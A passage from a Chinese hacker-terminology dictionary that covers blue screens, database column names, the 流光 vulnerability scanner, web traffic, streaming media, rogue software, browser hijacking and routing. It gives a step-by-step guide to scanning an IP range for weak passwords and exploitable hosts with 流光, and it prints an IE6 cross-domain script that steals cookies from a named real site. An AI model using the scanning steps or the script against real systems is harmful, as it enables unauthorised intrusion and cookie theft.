

图L-1

另一个重要的原因就是硬件问题，例如硬件过热、超频使用、硬件的电子零件损坏（例如电容器的电解液流出或损坏）及 BIOS 设定错误或其程序码有错误等，都可能导致蓝屏死机。

当发生蓝屏后，一般处理方法如下：

Windows 2K/XP 蓝屏信息非常多，但它们产生的原因往往集中在不兼容的硬件和驱动程序、有问题的软件、病毒等方面，因此首先为大家提供了一些常规的解决方案，在遇到蓝屏错误时，应先对照这些方案进行排除。

- 1. 重启

有时只是某个程序或驱动程序一时犯错，重启后它们会改过自新（注意：此时参见 7，查询停机码）。

- 2. 新硬件

首先应该检查新硬件是否插牢，这个被许多人忽视的问题往往会引发许多莫名其妙的故障。如果确认没有问题，将其拔下，然后换个插槽试试，并安装最新的驱动程序。同时，还应对照微软网站的硬件兼容类别检查一下硬件是否与操作系统兼容。如果你的硬件没有在列表中，那么就得到硬件厂商网站进行查询，或者拨打他们的咨询电话。

- 3. 新驱动和新服务

如果刚安装完某个硬件的新驱动，或安装了某个软件，而它又在系统服务中添加了相应项目（比如杀毒软件、CPU 降温软件、防火墙软件等），在重启或使用中出现了蓝屏故障，请到安全模式来卸载或禁用它们。

- 4. 检查病毒

# 黑客词典

比如【冲击波】和【振荡波】等病毒有时会导致 Windows 蓝屏死机，因此查杀病毒必不可少。同时，一些木马间谍软件也会引发蓝屏，所以最好再用相关工具进行扫描检查。

- 5、检查 BIOS 和硬件兼容性

对于新装的电脑经常出现蓝屏问题，应该检查并升级 BIOS 到最新版本，同时关闭其中的内存相关项，比如缓存和映射。另外，还应该对照微软的硬件兼容列表检查自己的硬件。还有就是，如果主板 BIOS 无法支持大容量硬盘也会导致蓝屏，需要对其进行升级。

- 6、检查系统日志

在“开始”→“运行”中输入“EventVwr.msc”后回车，会出现“事件查看器”，注意检查其中的“系统日志”和“应用程序日志”中表明“错误”的项。

- 7、查询停机码

把蓝屏中密密麻麻的英文记下来，接着到其他电脑中上网，进入微软帮助与支持网站 http://support.microsoft.com，在“搜索”中输入停机码。如果搜索结果没有适合信息，可以选择“英文”后再搜索一遍，一般情况下，会在这里找到有用的解决案例。

另外，在 Baidu、Google 等搜索引擎中使用“蓝屏的停机码”或者后面的说明文字为关键词进行搜索，往往也会有意外的收获。

默认情况下，蓝屏死机的显示是蓝（0x01 或 #0000AA）底白（0x0F 或 #FFFFFF）字，显示的信息包括了当前的内存值以及寄存器值。微软公司还很有幽默感地加入了一个可以让用户自行修改蓝屏死机的设置工具 system.ini。

对于 Windows Vista 的死机，红屏死机（Red Screen of Death，缩写 RSoD）有可能取代部分蓝屏死机成为“真正的”死机提示画面。

## 列名 数据库

列名又称【字段名】。在数据库技术中，一个表常常是包含多个列的，而每个列的名称就称为列名。如图 L-2，其中的“ID”、“PageInfo”等都是列名。



## 流光 黑客工具

流光可以说是中国黑客史上最具有影响力的黑客软件了，如图 L-3。也许许多新手对它并不熟悉，可对于老一些的黑客来说，它的意义非凡，除了 X-Scan，可能没有第二个国人的扫描类软件能跟它媲美。虽然流光早已停止开发，但它对于中国黑客进程的发展却不会消失。

流光这款软件除了能够像 X-Scan 那样扫描众多漏洞、弱口令外，还集成了常用的入侵工具，如字典工具、NT/IIS 工具等，并独创了能够控制“肉鸡”进行扫描的“流光 Sensor 工具”和为“肉鸡”安装服务的“种植者”工具。

与 X-Scan 相比，流光的功能更多一些，但操作起来难免繁杂。由于当时流光的功能过于强大，因此其作者小榕限制了流光所能扫描的 IP 范围，不允许流光扫描国内 IP 地址，这让人不得不佩服他的社会责任感。而且流光测试版在功能上也有一定的限制，但是打了特定的补丁后可以去除这个限制。





图 L-4

运行流光，界面如图 L-4，下面我们以实例来使用流光高级扫描功能检测 210.X.X.2 到 210.X.X.253 网段主机的系统缺陷。

#### 步骤一：打开高级扫描向导，设置扫描参数

在流光 4.7 主界面下，通过选择“文件(F)”→“高级扫描向导(W)”或使用快捷键“Ctrl+W”打开高级扫描向导。



图 L-5

在“起始地址”和“结束地址”分别填入目标网段主机的开始和结束 IP 地址；在“目标系统”中选择预检测的操作系统类型；在“获取主机名”、“PING 检查”前面打钩；在“检测项目”中选择“全选”，一切设置好后如图 L-5。

然后单击“下一步(N)”按钮，选中“标准端口扫描”，如图 L-6。



图 L-6

说明：

- 标准端口扫描：只对常见的端口进行扫描。
- 自定义端口扫描范围：自定义端口范围进行扫描。

然后单击“下一步(N)”按钮，按照如图 L-7 进行设置。

设置好所有检测项目后，然后单击“下一步(N)”按钮并选择“本地主机”，表示使用本机执行扫描任务。



图 L-7

#### 步骤二：开始扫描

在图 L-8 中单击“开始(S)”按钮进行扫描。在扫描过程中，如果想要停止，通过单击最下角的“取消”按钮来实现。不过这需要相当长的一段时间才能真正地停止，所以建议一次不要扫太大的网段，如果因扫描时间过长而等不及，这时候再想让流光停下来是很不容易的。



图 L-8

#### 步骤三：查看扫描报告

扫描结束后，流光会自动打开 HTML 格式的扫描报告，如图 L-9。需要指出的是，在扫描完成后，流光不仅把扫描结果整理成报告文件，而且还把可利用的主机列在流光界面的最下方，如图 L-10。单击主机列表中的主机便可以直接对目标主机进行连接操作，如图 L-11。

以上就是流光的简单使用，虽然由于网络的发展，流光的实战价值已经不大，但在当时看来，流光代表的是中国黑客的扎实技术和高度的社会责任感，我们应该记住它！



## 流量 黑客技术基础

在网络技术中的流量，简而言之就是网络上传输的数据量。但这个词更多的是说网站流量（traffic），即指网站上的访问量。它是用来描述访问一个网站的用户数量以及用户所浏览的网页数量等指标。常用的统计指标包括网站的独立用户数量、总用户数量（含重复访问者）、网页浏览数量、每个用户的页面浏览数量、用户在网站的平均停留时间等。

网站访问统计分析的基础是获取网站流量的基本数据，网站流量统计指标大致可以分为三类，每类包含若干数量的统计指标。

- 1. 网站流量指标

网站流量统计指标常用来对网站效果进行评价，主要指标包括：

- 独立访问者数量（unique visitors）；
- 重复访问者数量（repeat visitors）；
- 页面浏览数（page views）；
- 每个访问者的页面浏览数（Page Views per user）；
- 某些具体文件/页面的统计指标，如页面显示次数、文件下载次数等。

- 2、用户行为指标

用户行为指标主要反映用户是如何来到网站的、在网站上停留了多长时间、访问了哪些页面等，主要的统计指标包括：

- 用户在网站的停留时间；
- 用户来源网站（也叫“引导网站”）；
- 用户所使用的搜索引擎及其关键词；
- 在不同时段的用户访问量情况等。

- 3、用户浏览网站的方式、时间、设备、浏览器名称和版本、操作系统

用户浏览网站的方式相关统计指标主要包括：

- 用户上网设备类型；
- 用户浏览器的名称和版本；
- 访问者电脑分辨率显示模式；
- 用户所使用的操作系统名称和版本；
- 用户所在地区域分布状况等。

## 流媒体 黑客技术基础

流媒体实际指的是一种新的媒体传送方式，而非一种新的媒体。流媒体又叫流式媒体，它是指采用流式传输的方式在 Internet 播放的媒体格式。常用流媒体【扩展名】有：.mov、.asf、3gp、viv、swf、.rt、.rp、ra、rm 等。

流式媒体在播放前并不下载整个文件，只将开始部分内容存入内存，流式媒体的数据流随时传送随时播放，只是在开始时有一些延迟。流媒体实现的关键技术就是流式传输。

在网络上传输音/视频等多媒体信息，目前主要有下载和流式传输两种方案。AVI 文件一般都较大，所以需要的存储容量也较大；同时由于网络带宽的限制，下载常常要花数分钟甚至数小时，所以这种处理方法延迟也很大。流式传输时，声音、影像或动画等时基媒体由音视频服务器向用户计算机连续、实时传送，用户不必等到整个文件全部下载完毕，而只需经过几秒或数十秒的启动延时即可进行观看。当声音等时基媒体在客户机上播放时，文件的剩余部分将在后台从服务器内继续下载。流式不仅使启动延时成十倍、百倍地缩短，而且不需要太大的缓存容量。流式传输避免了用户必须等待整个文件全部从 Internet 上下载才能观看的缺点。

流媒体技术全面应用后，人们在网上聊天可直接语音输入；如果想彼此看见对方的容貌、表情，只要双方各有一个摄像头就可以了；在网上看到感兴趣的商品，点击以后，讲解员和商品的影像就会跳出来；更有真实感的影像新闻也会出现。

## 流氓软件 病毒与恶意软件

流氓软件是国内对网络上散播的符合如下条件（主要是第一条）的软件的一种称呼。

- 1. 采用多种社会和技术手段，强行或者秘密安装，并抵制卸载；
- 2. 强行修改用户软件设置，如浏览器主页、软件自动启动选项、安全选项；强行弹出广告，或者其他干扰用户占用系统资源行为；
- 3. 有侵害用户信息和财产安全的潜在因素或者隐患；
- 4. 未经用户许可，或者利用用户疏忽，或者利用用户缺乏相关知识，秘密收集用户个人信息、秘密和隐私。

以下是部分网友最痛恨的流氓软件：

- 3721 中文实名
- CNNIC 中文网址
- DuDu 加速器
- 网络猪
- STD 广告发布系统
- 百度超级搜霸
- 一搜工具条
- 很棒小秘书
- ……

流氓软件也可能被称为恶意广告软件（adware）、间谍软件（spyware）、恶意共享软件（malicious shareware）。与病毒或者蠕虫不同，这些软件很多不是小团体或者个人秘密地编写和散播，反而有很多知名企业和团体涉猎此类软件，其中以雅虎旗下的 3721 最为知名和普通，也比较典型。

该软件采用多种技术手段强行安装和对抗删除，很多用户投诉是在不知情的情况下遭到安装，而其多种反卸载和自动恢复技术使得很多软件专业人员也感到难以对付，以至于其卸载成为各大网站上常常被讨论和咨询的技术问题。

流氓软件具备部分病毒和黑客程序的特征，属于正常软件和病毒之间的灰色地带，而杀毒软件一般不作处理。根据不同的特征和危害，困扰广大计算机用户的流氍软件主要有如下几类：

### 1、广告软件（Adware）

定义：广告软件是指未经用户允许，下载并安装在用户电脑上，或与其他软件捆绑，通过弹出式广告等形式牟取商业利益的程序。  
危害：此类软件往往会强制安装并无法卸载，其在后台收集用户信息进行牟利，危及用户隐私，并频繁弹出广告，消耗系统资源，使其运行变慢。

例如：用户安装了某下载软件后，会一直弹出带有广告内容的窗口，干扰正常使用。还有一些软件安装后，会在 IE 浏览器的工具栏位置添加与其功能不相干的广告图标，普通用户很难清除。

据称，网络广告的计费是按弹出次数进行的，使用“流氓软件”可以在用户根本没有授权的情况下随意弹出广告，提高广告弹出次数，藉此提高广告收益。一个“装机量”大的广告插件公司，凭“流氓软件”月收入可以在百万元以上。

### 2、间谍软件（Spyware）

定义：间谍软件是一种能够在用户不知情的情况下，在其电脑上安装后门，收集用户信息的软件。  
危害：用户的隐私数据和重要信息会被“后门程序”捕获，并被发送给黑客、商业公司等。这些“后门程序”甚至能使用户的电脑被远程操纵，组成庞大的“僵尸网络”，这是目前网络安全的重要隐患之一。

例如：某些软件会获取用户的软硬件配置，并发送出去用于商业目的。

### 3、浏览器劫持

定义：浏览器劫持是一种恶意程序，通过浏览器插件、BHO（浏览器辅助对象）、Winsock LSP 等形式对用户的浏览器进行篡改，使用户的浏览器配置不正常，被强行引导到商业网站。  
危害：用户在浏览网站时会被强行安装此类插件，普通用户根本无法将其卸载。被劫持后，用户只要上网就会被强行引导到其指定的网站，严重影响正常上网浏览。

编写技术（此技术通常被病毒使用）来逃避用户卸载，往往会造成浏览器错误、系统异常重启等。

### 4、行为记录软件（Track Ware）

定义：行为记录软件是指未经用户许可，窃取并分析用户隐私数据，记录用户电脑使用习惯、网络浏览习惯等个人行为的软件。

危害：危及用户隐私，可能被黑客利用来进行网络诈骗。

例如：一些软件会在后台记录用户访问过的网站并加以分析，有的甚至会发送给专门的商业公司或机构，此类机构会据此窥测用户的爱好，并进行相应的广告推广或商业活动。

### 5、恶意共享软件（malicious shareware）

定义：恶意共享软件是指某些共享软件为了获取利益，采用诱骗手段、试用陷阱等方式强迫用户注册，或在软件体内捆绑各类恶意插件，未经允许即将其安装到用户机器里。

危害：使用“试用陷阱”强迫用户进行注册，否则可能会丢失个人资料等数据。软件集成的插件可能会造成用户浏览器被劫持、隐私被窃取等。

例如：用户安装某款媒体播放软件后，会被强迫安装与播放功能毫不相干的软件（搜索插件、下载软件）而不给出明确提示；并且用户卸载播放器软件时不会自动卸载这些附加安装的软件。又比如某加密软件，试用期过后所有被加密的资料都会丢失，只有交费购买该软件才能找回丢失的数据。

## 浏览器劫持攻击 攻击方法与行为

浏览器劫持攻击是一种最新的【跨站攻击】方式，它最初是 Manuel Caballero 在 BLUEHAT 大会上公布的，当时他讲了一个叫 A Resident in My Domain 的议题，字面上的意思就是“驻留在自己的域”。这个页面的神奇在于，访问这个页面后，就可以自动记录下你通过这个页面访问的其他页面。

这种攻击的核心思想在于利用 javascript 里的延迟【函数】，在受害者从一个页面进入新的页面时，在新的页面注入恶意的 JS 代码，以达到控制整个页面的目的。对于 IE6 来说，常见的测试代码如下：

```html
<a href="">IE6 Cross Domain Scripting</a>
<script>
function win(){
    x=window.open('http://www.phpwind.net');
    setTimeout(function(){
        x.location=new String("javascript:alert(document.cookie)")
    },3000)
}
window.onload=function(){
    for(i=0;i<document.links.length;i++){
        document.links[i].href='javascript:win()'
    }
}
</script>
```

将以上代码保存为 HTML 文件后，点击链接，3 秒后自动弹出新页面的 COOKIES。

## 路由 黑客技术基础

路由是指把数据从一个地方传送到另一个地方的行为。路由包含两个基本的动作：确定最佳路径和通过网络传输信息。在路由的过程中，后者也称为（数据）交换。交换相对来说比较简单，而选择路径很复杂。

路由的话题早已在计算机界出现，但直到八十年代中期才获得商业成功，这一时间延迟的主要原因是七十年代的网络很简单，后来大型的网络才较为普遍。

路由通常与桥接来对比，在不清楚其过程的人看来，它们似乎完成的是同样的事。它们的主要区别在于：桥接发生在 OSI 参考协议的第二层（链路层），而路由发生在第三层（网络层）。这一区别使二者在传递信息的过程中使用不同的信息，从而以不同的方式来完成其任务。

## 路由器 黑客技术基础

【路由】是指把数据从一个地方传送到另一个地方的行为，而路由器正是执行这种行为动作的机器，它的英文名称为 Router。它是使用一种或者更多度量因素的网络层设备，它决定网络通信能够通过的最佳路径。路由器依据网络层信息将数据包从一个网络转发到另一个网络，从这个角度看，路由器也可以称为网关。

路由器是互联网络中必不可少的网络设备之一，如图 L-12，它用于连接多个逻辑上分开的网络，对用户提供最佳的通信路径。路由器利用路由表为数据传输选择路径，路由表包含网络地址以及各地址之间距离的清单。路由器利用路由表查找数据包从当前位置到目的地址的正确路径，然后使用最少时间算法或最优路径算法来调整信息传递的路径。

如果某一网络路径发生故障或堵塞，路由器可选择另一条路径，以保证信息的正常传输。路由器可进行数据格式的转换，成为不同协议之间网络互连的必要设备。

